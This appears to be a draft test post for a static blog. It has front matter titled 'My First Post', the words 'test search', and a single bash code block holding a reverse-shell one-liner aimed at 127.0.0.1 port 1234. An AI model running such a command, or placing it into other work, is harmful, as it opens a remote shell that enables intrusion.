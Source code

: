 ```yaml
---
date: 2024-11-19T13:54:14+08:00
draft: true
title: My First Post
tags:
  - test
---
```


test search

```bash
/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1 /dev/null
```